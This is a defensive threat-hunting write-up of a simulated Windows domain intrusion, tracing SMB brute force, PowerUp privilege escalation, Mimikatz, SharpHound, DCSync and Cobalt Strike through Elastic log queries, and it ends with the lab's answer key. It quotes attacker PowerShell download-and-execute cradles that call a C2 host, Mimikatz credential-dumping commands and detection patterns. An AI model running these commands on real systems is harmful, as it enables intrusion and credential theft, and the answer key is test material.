


# Temple Writeup

# Introduction :

In this guide, we’ll take you through the Temple threat hunting lab on the SecDojo platform. This walkthrough provides a detailed, step-by-step look at how to investigate a cyber attack in a Windows environment. We'll explore each stage of the investigation, breaking down the tactics, techniques, and procedures used by the attackers.

# Objective 1: Our main goal is to understand how the intruder initially got into our network. After that, we'll examine the data to determine the extent of their impact. To do this, we need to start with an initial hypothesis.

## Hypothesis:

Our hypothesis is that an attacker has successfully gained access to our network and established **persistence**.

Now, we'll start investigating how they might have done this. One common method is using scheduled tasks. We'll look for processes that include the term "schtasks" in their command line.

```yaml
Query : (event.code : (1 OR 4688) AND process.command.line : *schtasks*)
```


We found three scheduled tasks:

- **SecUpdate** on the **Bastion** host

- **ADupdate** and **NewADupdate** on **Temple.secdojo.lab**

All three tasks ran the same PowerShell command:

```powershell
powershell.exe -exec bypass -enc ZQBjAGgAbwAgACIAcABlAHIAcwBpAHMAdABlAG4AYwBlACIACgA=
```

Upon decoding the base64-encoded section, we reveal the following command: **`echo "persistence"`**

However, Our main goal is to trace how the intruder initially got into the network. We'll start by focusing on the earliest event from the six hits based on the timestamp. Specifically, we’ll look at the scheduled task created by "john" on the Bastion host and track the logonID to understand john’s activities on the Bastion host before the task was created.

```yaml
Query : (winlog.logon.id : 0x8a11df) OR (winlog.event_data.LogonId : 0x8a11df)
```

winlog.event_data.LogonId : the LogonID field for sysmon

winlog.logon.id  : the LogonID field for windows events logs

While analyzing the created processes, we have come across some noteworthy findings:

1. The utilization of **Mimikatz** for the purpose of **credential dumping**.

2. Additionally, we've detected the utilization of **Sharphound**, with another user, "**tsilva**," to conduct domain enumeration within the **secdojo.lab** domain.


While this information is useful, our main focus is to identify the source of the breach. By analyzing login event ID 4624, we found a potential use of the "pass the hash" technique targeting the Guest account.


This is interesting, but we won't stop here. We will continue by tracing the logonID of the subject user to investigate their actions and find out where these activities originated:

```yaml
Query : ((winlog.logon.id : 0x893c5f) OR (winlog.event_data.LogonId : 0x893c5f))
```


The event of particular interest here is the logon event where "**mark**" explicitly logs in as "**john**" with a LogonType of 2, which could suggest the use of a "**runas**" command.

Now that we've established that all the intriguing and suspicious activities initiated by "**john**" trace back to "**mark**," let's continue our investigation by tracking the **LogonID** associated with the subject user "**mark**" to gather further information:

```yaml
Query : (([winlog.logon.id](http://winlog.logon.id/) : 0x6fe292) OR (winlog.event_data.LogonId : 0x6fe292)) AND event.code:(1 OR 4688)
```

```yaml
Query : ((winlog.logon.id : 0x6fe292) OR (winlog.event_data.LogonId : 0x6fe292)) AND event.code:(1 OR 4688)
```

Once more, we will begin by filtering based on process creations to check if there are any noteworthy command lines:


Here we have some intriguing findings:

1. User enumeration.
2. Privilege checks.
3. A PowerShell command to download content from this URL: [**http://192.168.11.18:80/apt**](http://192.168.11.18/apt)
4. Two PowerShell encoded commands:
    - First command:
        
        ```powershell
        powershell -nop -exec bypass -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAyADcALgAwAC4AMAAuADEAOgAxADEAOAA3ADMALwAnACkAOwAgAEkAbg2AG8AawBlAC0AQQBsAGwAYwBoAGUAYwBrAHMA
        
        ```
        
        Decoded base64 part: `IEX (New-Object Net.Webclient).DownloadString('<http://127.0.0.1:11873/>'); Invoke-Allchecks`
        
    - Second command:
        
        ```powershell
        powershell -nop -exec bypass -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbg0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAyADcALgAwAC4AMAAuADEAOgAzADgAMgAyADMALwAnACkAOwAgAEkAbg2AG8AawBlAC0AUwBlAHIAdgBpAGMAZQBBAGIAdQBzAGUAIAAtAE4AYQBtAGUAIAAnAFMATgBNAFAAJwA=
        
        ```
        
        Decoded base64 part: `IEX (New-Object Net.Webclient).DownloadString('<http://127.0.0.1:38223/>'); Invoke-ServiceAbuse -Name 'SNMP'`
        

These findings present us with another hypothesis to explore later, involving PowerShell event logs, which could potentially yield more artifacts.

However, let's stay focused on our current goal. We should now examine the logon event associated with this particular **logonID** :


We've come across a constraint in our ability to trace the subject user's logonID, as it pertains to the local system itself. However, this presents an opportunity rather than a setback. We can take note of this information and leverage it to construct more inquiries and hypotheses for our ongoing investigation.

Specifically, it seems that "mark" has instigated the suspicious activities we've identified. Consequently, we can proceed with the assumption that "mark" is the compromised user and proceed with a thorough examination of events leading up to this logon:


Upon filtering by **[user.name](http://user.name/):mark**, we observed a potential brute force pattern involving the "**mark**" user from the IP address **192.168.11.18**. Interestingly, this IP is the same one from which we identified that "**mark**" downloaded something using a PowerShell command. Notably, the brute force attempts culminated in a **successful login**.

Subsequently, we noted an **RDP** login from IP address **192.168.11.55**.

With this information in hand, let's now investigate the type of activity originating from the IP address **192.168.11.18**:


We've observed an intriguing pattern: following a successful login from a brute force attempt, there's immediate access to the \\*\IPC$ ShareName within the same minute. This strongly suggests that the brute force attack was conducted using the **SMB** (Server Message Block) protocol, potentially through a tool like **CrackMapExec**.

To further validate this hypothesis, I conducted an internet search and came across an event ID related to SMB authentication, which is event ID **551**:


Indeed, we've noted a total of **57 Smb2SessionAuthFailure events**, corresponding precisely to the number of failed login attempts and occurring simultaneously. This confirmation aligns with our initial hypothesis regarding the use of **SMB for the brute force attack**.

Additionally, we've observed that the attacker proceeded to list the **Users** and **Public** directories. Furthermore, they placed a text file named "**local.txt**" and an **lnk** file (shortcut) in the **Public** folder:


We have successfully accomplished our first goal, which was to determine how the intruder gained access to the network.

Here is the timeline of events:

**Initial Access:**

- Occurred on May 1, 2023, between 23:21:09.368 and 23:21:09.748.
- The attacker employed a brute force attack utilizing the SMB protocol, targeting the "mark" username, and successfully gained access.

**Subsequent Activity:**

- On May 1, 2023, at 23:32:27.084, there was a login via RDP from IP address 192.168.11.55 to the BASTION Workstation.
- As a result, the attacker now possesses access to the BASTION workstation through the "mark" account. Their potential next steps could include enumeration, privilege escalation, and lateral movement within the domain.

Our next objective is to track and investigate the actions taken by the attacker following their RDP login.

# Objective 2: Our second objective is to trace the activities of the compromised account "**mark**" and understand how the attacker moved in the network.

Hypothesis :
The attacker utilized the compromised "**mark**" account for **internal reconnaissance** within the network.

To initiate our investigation into **internal reconnaissance**, we will begin by employing CAR analytics, specifically focusing on "CAR-2013-04-002: Quick execution of a series of suspicious commands." You can find more details about this analytics approach at [CAR-2013-04-002](https://car.mitre.org/analytics/CAR-2013-04-002/).

```yaml
Query : event.code:(1 OR 4688) AND process.executable:(*arp.exe* OR *at.exe* OR *attrib.exe* OR *cscript.exe* OR *dsquery.exe* OR *hostname.exe* OR *ipconfig.exe* OR *nbstat.exe* OR *net.exe* OR *net1.exe* OR *netsh.exe* OR *nslookup.exe* OR *ping.exe* OR *quser.exe* OR *qwinsta.exe* OR *reg.exe* OR *runas.exe* OR *sc.exe* OR *ssh.exe* OR *systeminfo.exe* OR *taskkill.exe* OR *telnet.exe* OR *tracert.exe* OR *wscript.exe* OR *xcopy.exe* OR *whoami.exe*)
```

When we filter the results by examining the created processes, we uncover some intriguing findings:


Let's concentrate first on the Bation Workstation :


We observe the following:

- The user "**john**" was created by the **SYSTEM**, which raises suspicion.
- "**john**" was subsequently added to the local Administrators group on the Bastion workstation.
- Following this, the attacker attempted to enumerate users and verify the existence of the "**john**" account.

To gain a deeper understanding of these events, we will proceed by tracking the process tree.


We will commence by examining the initial process based on its timestamp and tracing its parent process ID :

Queries :

```yaml
(process.pid:4948) OR (process.parent.pid:4948)
```

```yaml
(process.pid:3312) OR (process.parent.pid:3312)
```

```yaml
(process.pid:3800) OR (process.parent.pid:3800)
```

Below is the process tree:



Now, let's investigate and track the actions of process ID **4948**:

From a network standpoint, there's a significant amount of communication originating from the "bastion" workstation towards the IP address "192.168.11.18" on port "80." This strongly suggests the possibility that this IP address serves as the Command and Control (C2) server for the attacker.


The additional events associated with **process ID 4948** involve the creation of other processes and files:


Since we intend to track all the noteworthy processes created later, let's initially focus our attention on the files that have been created:


As we examine the files, we come across an intriguing one named "**PowerUp.ps1**." This file serves as a tool designed to facilitate quick checks for potential privilege escalation opportunities on a Windows machine.

It's plausible that this script was downloaded from the C2 server at **192.168.11.18**.

To comprehend the script's behavior, we will refer to the provided [cheat sheet](https://blog.certcube.com/powerup-cheatsheet/). There are essential phases involved in executing the script that will help us detect its actions:

1. Importing the "**PowerUp.ps1**" module.
2. Running all the checks included in the module using the command **Invoke-AllChecks**.
3. After selecting the target service, running the command **Invoke-ServiceAbuse -Name 'TargetServiceName'**.

To detect the execution of this script, we will search in the PowerShell logs.

```yaml
Query : event.code:(800) AND powershell.command.value:("*Invoke-AllChecks*" OR "*Invoke-ServiceAbuse -Name*")
```


As we can discern, the attacker's intention was to exploit the SNMP service.

Referring to the [cheat sheet](https://blog.certcube.com/powerup-cheatsheet/), when the command **Invoke-ServiceAbuse -Name 'TargetServiceName'** is executed without customizing the script (as is the case here), it results in the creation of a user named **john** with the password **Password123!**. Furthermore, this user is added to the local group **administrators**.

Recall that when we initially embarked on our hunt for **internal reconnaissance**, we made the following observations:

- The user "**john**" was created by the SYSTEM.
- "**john**" was added to the Administrators local group on the Bastion workstation.

These observations align with the script's actions, indicating that the attacker utilized it to achieve privilege escalation :


Upon tracking the parent process ID of the identified processes, we discovered that the **PowerUp.ps1** script was responsible for creating the user "**john**" and subsequently adding this user to the **administrators** group. This action was achieved by modifying the registry key associated with the exploited service, namely **SNMP**.

It's important to note that after completing the creation of the user "**john**" and adding them to the local **administrators** group, the script reverted the registry back to its original service executable state :


Now that we've completed our examination of the file creation events associated with PID 4948, we've established the following results:

- The attacker exploited the **SNMP** service using **PowerUp.ps1** tool.
- They created a user named "**john**" and added this user to the local **administrators** group on the Bastion workstation.

As a consequence, the attacker now possesses administrative privileges on the host named **Bastion**.

Next, we'll proceed to track the remaining events related to PID **4948** in order to potentially uncover more significant information:


We will proceed to track process ID **6436**, which was executed by the user "**john**”:

```yaml
Query : (process.pid:6436) OR (process.parent.pid:6436)
```


Once more, we will proceed by examining the last process based on its timestamp, which holds the PID **5880**, as the preceding ones do not appear to have notable elements to track:

```yaml
Query : (process.pid:5880) OR (process.parent.pid:5880)
```


Focusing on the events related to process creation and file creation, we observe the following:

- The creation of a scheduled task by John, which we previously identified during our initial hypothesis.
- The creation of two files, which may have been downloaded from the C2 server:
    - **C:\Users\mark\Documents\mimikatz.exe** (Mimikatz is a tool commonly used for extracting sensitive information, such as passwords and credentials, from a system's memory. It is typically employed for unauthorized network access, privilege escalation, lateral movement, and other malicious activities.)
    - **C:\Users\mark\Documents\SharpHound.exe** (SharpHound is the official data collector for BloodHound, written in C#. It gathers data from domain controllers and domain-joined Windows systems using native Windows API functions and LDAP namespace functions.)

Let's begin by focusing on Mimikatz. Our initial step is to conduct a basic search for a process creation command line containing the term **mimikatz:**

```yaml
Query: event.code : (4688 OR 1) AND process.command_line:*mimikatz*
```


Analyzing the executed commands:

- **sekurlsa::logonpasswords**: If successful, Mimikatz will generate a list of cleartext passwords for all currently and recently logged-on users and computers.
- **lsadump::sam**: This command dumps the NT hashes from the local Security Account Manager (SAM).

These commands imply that the attacker may have acquired **cleartext passwords or NT hashes for some domain users**.

This revelation provides context for the presence of the SharpHound tool. If the attacker has access to domain user credentials, they can employ SharpHound to enumerate the AD domain. Let's proceed with a basic search for the execution of SharpHound:

```yaml
Query: event.code : (4688 OR 1) AND process.command_line:*SharpHound*
```


It is evident that the attacker possesses the password for a domain user account named **tsilva**, which has been employed to enumerate the domain using the **SharpHound** tool.

Now, let's investigate the activities conducted by the attacker using the "**tsilva**" user account.

```yaml
Query : (related.user:/[Tt][Ss][Ii][Ll][Vv][Aa]/) OR (winlog.event_data.TargetUserName:/[Tt][Ss][Ii][Ll][Vv][Aa]/) OR (winlog.event_data.SubjectUserName:/[Tt][Ss][Ii][Ll][Vv][Aa]/) OR **(winlog.event_data.TargetUser**:/[Tt][Ss][Ii][Ll][Vv][Aa]/**) OR (winlog.event_data.User**:/[Tt][Ss][Ii][Ll][Vv][Aa]/**) OR (winlog.event_data.SourceUser**:/[Tt][Ss][Ii][Ll][Vv][Aa]/**)**
```


From the logs, we can discern that the attacker executed the following actions using the "tsilva" user account:

1. There was an explicit logon by "**john**" as a "**tsilva**" user, originating from the **BASTION** workstation and connecting to the DC "**Temple.secdojo.lab**" This login was used to launch the SharpHound command for domain enumeration.
2. "**tsilva**" was logged into the DC from the attacker's C2 server, which happens to be a **KALI** machine.
3. "**tsilva**" reset the password for another user named "**FVidal**."

Following the completion of these actions, the attacker logged out from the "**tsilva**" account, and there don't appear to be any other significant activities associated with it in the logs.

At this juncture, the next step is to follow a similar investigative process with the "**FVidal**" user account and determine what the attacker has done with it :

```yaml
Query : (related.user:/[Ff][Vv][Ii][Dd][Aa][Ll]/) OR (winlog.event_data.TargetUserName:/[Ff][Vv][Ii][Dd][Aa][Ll]/) OR (winlog.event_data.SubjectUserName:/[Ff][Vv][Ii][Dd][Aa][Ll]/) OR (winlog.event_data.TargetUser:/[Ff][Vv][Ii][Dd][Aa][Ll]/) OR (winlog.event_data.User:/[Ff][Vv][Ii][Dd][Aa][Ll]/) OR (winlog.event_data.SourceUser:/[Ff][Vv][Ii][Dd][Aa][Ll]/)
```


Here are the activities observed for the user "**FVidal**":

1. "FVidal" logged into the DC (**Temple.secdojo.lab**) from the attacker's C2 server:


By examining the **LogonID** of the two login events:

- For the one with LogonID: 0x7c05d2

```yaml
Query:  winlog.event_data.SubjectLogonId:(0x7c05d2) OR winlog.event_data.TargetLogonId:(0x7c05d2)
```

there is nothing noteworthy to track. :


- On the other hand the logon ID: 0x7c0625

```yaml
Query:  winlog.event_data.SubjectLogonId:(0x7c0625) OR winlog.event_data.TargetLogonId:(0x7c0625)
```


We should focus our attention on the events related to **Directory Service Access**, which seem to hold valuable information. To do this, we will filter these events and specifically look for those associated with the Subject username "**FVidal**”:

```yaml
Query : (event.code:4662) AND (winlog.event_data.SubjectUserName:/[Ff][Vv][Ii][Dd][Aa][Ll]/)
```


As observed, a **Dcsync** activity was detected in Windows Security **Event ID 4662**. Key indicators include a **non-computer-based** account (**FVidal**), an access mask of **0x100**, targeting an Active Directory object of class **domainDNS**, and utilizing the Control Access Rights **DS-Replication-Get-Changes** and **DS-Replication-Get-Changes-All**.

At this stage, the attacker has acquired the NTLM hashes for crucial accounts in the Active Directory, such as **Administrator** and **krbtgt**. This provides the attacker with the means to potentially log in and execute further suspicious activities.

Now, let's proceed to check if there are any logging or other events involving the use of **Administrator** or **krbtgt** from the attacker's IP (**192.168.11.18**) subsequent to obtaining the NTLM hashes :

```yaml
Query : (related.user:/[Aa][Dd][Mm][Ii][Nn][Ii][Ss][Tt][Rr][Aa][Tt][Oo][Rr]/) OR (winlog.event_data.TargetUserName:/[Aa][Dd][Mm][Ii][Nn][Ii][Ss][Tt][Rr][Aa][Tt][Oo][Rr]/) OR (winlog.event_data.SubjectUserName:/[Aa][Dd][Mm][Ii][Nn][Ii][Ss][Tt][Rr][Aa][Tt][Oo][Rr]/) OR (winlog.event_data.TargetUser:/[Aa][Dd][Mm][Ii][Nn][Ii][Ss][Tt][Rr][Aa][Tt][Oo][Rr]/) OR (winlog.event_data.User:/[Aa][Dd][Mm][Ii][Nn][Ii][Ss][Tt][Rr][Aa][Tt][Oo][Rr]/) OR (winlog.event_data.SourceUser:/[Aa][Dd][Mm][Ii][Nn][Ii][Ss][Tt][Rr][Aa][Tt][Oo][Rr]/) OR (related.user:/[Kk][Rr][Bb][Tt][Gg][Tt]/) OR (winlog.event_data.TargetUserName:/[Kk][Rr][Bb][Tt][Gg][Tt]/) OR (winlog.event_data.SubjectUserName:/[Kk][Rr][Bb][Tt][Gg][Tt]/) OR (winlog.event_data.TargetUser:/[Kk][Rr][Bb][Tt][Gg][Tt]/) OR (winlog.event_data.User:/[Kk][Rr][Bb][Tt][Gg][Tt]/) OR (winlog.event_data.SourceUser:/[Kk][Rr][Bb][Tt][Gg][Tt]/)
```


As we can discern, there is network communication with the attacker's C2 server through PowerShell. To gain further insight, we will trace the process with **PID 3544**, using the following queries :

```yaml
(process.pid:3544) OR (process.parent.pid:3544)
```

```yaml
(process.pid:2620) OR (process.parent.pid:2620)
```

```yaml
(process.pid:756) OR (process.parent.pid:756)
```

Upon investigating process **ID 3544**, we find that it is associated with a PowerShell command line to download an "**apt2**" file from the attacker's C2 server:


As we observe, this sequence of events began with process **ID 756**, which serves as a parent process for two instances of the executable **C:\Windows\system32\wsmprovhost.exe**. These instances possess **different LogonIDs**. To comprehensively understand the attacker's activities using the Administrator account, we will track the **LogonIDs** associated with these **two sessions**.

Let's commence by examining the first session, as it occurred immediately after the **Dcsync** event:

```yaml
Query : (winlog.logon.id : 0x7c2203) OR (winlog.event_data.LogonId : 0x7c2203)
```


Numerous intriguing events have been identified, but we will begin by investigating the process creation events.

```yaml
Query : (event.code: (4688 OR 1)) AND ((winlog.logon.id : 0x7c2203) OR (winlog.event_data.LogonId : 0x7c2203))
```


As we can observe, process **PID 3544**, which corresponds to the PowerShell command responsible for downloading the "**apt2**" file from the C2 server at **192.168.11.18**, acts as the parent process for all the processes in the query hits.

Within these query hits, we have identified several significant activities, and we will highlight the key ones:

1. The PowerShell commands:

```powershell
"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe" -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('<http://192.168.11.18:80/apt2>'))"
```

**The first is about downloading apt2 file from the attacker C2 server**

```powershell
powershell -nop -exec bypass -EncodedCommand RwBlAHQALQBEAG8AbQBhAGkAbgBTAGkAZAA=

Base64 decode = Get-DomainSid
```

```powershell
powershell -nop -exec bypass -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAyADcALgAwAC4AMAAuADEAOgA0ADcAMAAwADUALwAnACkAOwAgAEcAZQB0AC0ARABvAG0AYQBpAG4AUwBpAGQA

Base64 decode: IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:47005/'); Get-DomainSid
```

**This command is a PowerView module that returns the SID for the current or specified domain.**

```powershell
powershell -nop -exec bypass -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAyADcALgAwAC4AMAAuADEAOgAxADkAOAAyADQALwAnACkAOwAgAE4AZQB3AC0AQQBEAFUAcwBlAHIAIAAtAE4AYQBtAGUAIAAiAGUAbABvAG4AIABtAHUAcwBrACIAIAAgAC0AUwBhAG0AQQBjAGMAbwB1AG4AdABOAGEAbQBlACAAIgBlAC4AbQB1AHMAawAiACAALQBVAHMAZQByAFAAcgBpAG4AYwBpAHAAYQBsAE4AYQBtAGUAIABlAC4AbQB1AHMAawBAAHMAZQBjAGQAbwBqAG8ALgBsAGEAYgAgAC0AQQBjAGMAbwB1AG4AdABQAGEAcwBzAHcAbwByAGQAIAAoAEMAbwBuAHYAZQByAHQAVABvAC0AUwBlAGMAdQByAGUAUwB0AHIAaQBuAGcAIAAiAFAAQQBTAFMAdwBkADEAMgAzACIAIAAtAEEAcwBQAGwAYQBpAG4AVABlAHgAdAAgAC0ARgBvAHIAYwBlACkAIAAtAFAAYQBzAHMAVABoAHIAdQAgAHwAIABFAG4AYQBiAGwAZQAtAEEARABBAGMAYwBvAHUAbgB0AA==

Base64 decode: IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:19824/'); New-ADUser -Name "elon musk"  -SamAccountName "e.musk" -UserPrincipalName e.musk@secdojo.lab -AccountPassword (ConvertTo-SecureString "PASSwd123" -AsPlainText -Force) -PassThru | Enable-ADAccount

```

```powershell
powershell -nop -exec bypass -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAyADcALgAwAC4AMAAuADEAOgA1ADUANQAxADUALwAnACkAOwAgAEcAZQB0AC0ARABvAG0AYQBpAG4AVQBzAGUAcgAgAC0ASQBkAGUAbgB0AGkAdAB5ACAAZQAuAG0AdQBzAGsAIAAtAFAAcgBvAHAAZQByAHQAaQBlAHMAIABEAGkAcwBwAGwAYQB5AE4AYQBtAGUALAAgAE0AZQBtAGIAZQByAE8AZgA=

Base64 decode: IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:55515/'); Get-DomainUser -Identity e.musk -Properties DisplayName, MemberOf
```

```powershell
powershell -nop -exec bypass -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAyADcALgAwAC4AMAAuADEAOgA2ADAAOAA3ADQALwAnACkAOwAgAE4AZQB3AC0AQQBEAFUAcwBlAHIAIAAtAE4AYQBtAGUAIAAiAEUAbABvAG4AIABOAG8AdABtAHUAcwBrACIAIAAtAEcAaQB2AGUAbgBOAGEAbQBlACAAIgBFAGwAbwBuACIAIAAtAFMAdQByAG4AYQBtAGUAIAAiAE4AbwB0AE0AdQBzAGsAIgAgAC0AVQBzAGUAcgBQAHIAaQBuAGMAaQBwAGEAbABOAGEAbQBlACAAIgBlAGwAbwBuAC4AbgBvAHQAbQBzAHUAawBAAHMAZQBjAGQAbwBqAG8ALgBsAGEAYgAiACAALQBBAGMAYwBvAHUAbgB0AFAAYQBzAHMAdwBvAHIAZAAgACgAQwBvAG4AdgBlAHIAdABUAG8ALQBTAGUAYwB1AHIAZQBTAHQAcgBpAG4AZwAgACIAUABAAHMAcwB3ADAAcgBkACIAIAAtAEEAcwBQAGwAYQBpAG4AVABlAHgAdAAgAC0ARgBvAHIAYwBlACkAIAAtAEUAbgBhAGIAbABlAGQAIAAkAHQAcgB1AGUA

Base64 decode: IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:60874/'); New-ADUser -Name "Elon Notmusk" -GivenName "Elon" -Surname "NotMusk" -UserPrincipalName "elon.notmsuk@secdojo.lab" -AccountPassword (ConvertTo-SecureString "P@ssw0rd" -AsPlainText -Force) -Enabled $true
```

```powershell
powershell -nop -exec bypass -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAyADcALgAwAC4AMAAuADEAOgA2ADAANAAyADEALwAnACkAOwAgAEcAZQB0AC0ARABvAG0AYQBpAG4AVQBzAGUAcgAgAC0ASQBkAGUAbgB0AGkAdAB5ACAAZQBsAG8AbgAuAG0AdQBzAGsAIAAtAFAAcgBvAHAAZQByAHQAaQBlAHMAIABEAGkAcwBwAGwAYQB5AE4AYQBtAGUALAAgAE0AZQBtAGIAZQByAE8AZgA=

Base64 decode: IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:60421/'); Get-DomainUser -Identity elon.musk -Properties DisplayName, MemberOf
```

To summarize, the last four PowerShell commands indicate that the attacker has created two usernames:

1. **elon musk (e.mask)** with the password **PASSwd123** and enabled the account.
2. **Elon Notmusk** with the password **P@ssw0rd** also enabled the account.

After each creation, a check was performed to confirm the existence of the created user and to identify the domain to which they belong.

2. In addition to the PowerShell commands, there are other commands related to enumerating domain users.

Now, let's examine the other events associated with the process ID **3544**:


The remaining events are tied to the creation of the two users, **e.mask** and **Elon Notmusk.** This action aligns with the decoded base64 PowerShell command, confirming the successful creation of these users.

One noteworthy observation is that the attacker **deleted the user** **e.musk** approximately 13 minutes after creating it.

Furthermore, by tracing the **process ID without a specific logonID**, we discover that a file was created:


**Rubeus.exe** which is a C# toolkit for Kerberos interaction and abuses. Kerberos, as we all know, is a ticket-based network authentication protocol and is used in Active Directories. Unfortunately, due to human error, oftentimes AD is not configured properly keeping security in mind. Rubeus can exploit vulnerabilities arising out of these misconfigurations and perform functions such as crafting keys and granting access using forged certificates. The article serves as a guide on using Rubeus in various scenarios.

**However, it's important to note that we couldn't find any usage of this tool in the logs. 🙁**

Anyway, let's proceed to track the other logonID associated with the process ID **756**:


```yaml
Query : (winlog.logon.id : 0x82a906) OR (winlog.event_data.LogonId : 0x82a906)
```


As we can see, we were trying to enumerate the domain users and also trying to search if there was a user named **Enotmsuk**.

Also, he created a scheduled a task named “**NewADupdate**” as a **persistence** mechanism.

# Objectif 3: Determine which C2 framework was used by the attacker

A Command and Control (C2) framework serves as the infrastructure employed by an attacker or adversary. It encompasses a set of tools and techniques utilized for communicating with compromised devices, typically established after gaining an initial foothold during the initial compromise. The Command and Control communication method and infrastructure, commonly referred to as C2, are pivotal components in maintaining control over the compromised network.

Numerous C2 frameworks are available, ranging from commercial to open-source solutions. Some of the prominent C2 frameworks include:

1. Cobalt Strike
2. Empire
3. Light C2
4. Machete
5. Sliver

In our specific case, based on the analysis of sysmon event logs, it appears that the attacker was operating with a Cobalt Strike framework. We will proceed to list the associated indicators below:

1- Cobalt Strike Named Pipes : [https://research.splunk.com/endpoint/5876d429-0240-4709-8b93-ea8330b411b5/](https://research.splunk.com/endpoint/5876d429-0240-4709-8b93-ea8330b411b5/)

```yaml
Query: event.code:(17 OR 18) AND [file.name](http://file.name/):(\\msagent_* OR \\DserNamePipe* OR \\srvsvc_* OR \\postex_* OR \\status_* OR \\MSSE-* OR \\spoolss_* OR \\win_svc* OR \\ntsvcs* OR \\winsock* OR \\UIA_PIPE*)
```


As we can we got some hits for named pipe that start with **\postex_**

**2- rundll32 without any command-line :**

Cobalt Strike spawns rundll32 without any command-line and regularly injects the necessary payload code into rundll32’s memory. Therefore, you must check for the creation of rundll32 without any command-line arguments unaffected by the noise.

```yaml
Queury: (event.code : 1) AND (process.executable:**\\rundll32.exe) AND (process.command_line:**\\rundll32.exe)
```


There are numerous signs pointing to the utilization of Cobalt Strike that we could look for, but we'll conclude our investigation with the mentioned artifacts.

# **Timeline**

Here is a summary with a timeline of the attacker's activities on the network:



# LAB Answers :

```yaml
Q1: Which service did the attacker exploit to get a foothold?

Answer: SMB
```

```yaml
Q2: Which account was compromised by the attacker for the foothold?

Answer: mark
```

```yaml
Q3: Which Privilege Escalation tool was used in Bastion?

Answer: PowerUp
```

```yaml
Q4: What's the name of the BloodHound collector used by the attacker in Bastion?

Answer: SharpHound
```

```yaml
Q5: What was the privilege escalation technique in Bastion ?

Answer: Modifiable Service
```

```yaml
Q6: What's the name of persistence technique used in both machines?

Answer: Scheduled Tasks
```

```yaml
Q7: What's the name of the C2 used in the attack?

Answer: Cobalt Strike
```

```yaml
Q8: What's the name of the attacked Domain Controller?

Answer: secdojo.lab
```

```yaml
Q9: What is the name of the account that was used to enumerate the Domain Controller?

Answer : tsilva
```

```yaml
Q10: Which of the following tools was used to enumerate the Active Diretory?

Answer: SharpHound
```

```yaml
Q11: What is the name of the account compromised by the attacker to complete the attack?

Answer: FVidal
```

```yaml
Q12: What's the name of the AD user created and deleted by the attacker?

Answer: e.musk
```
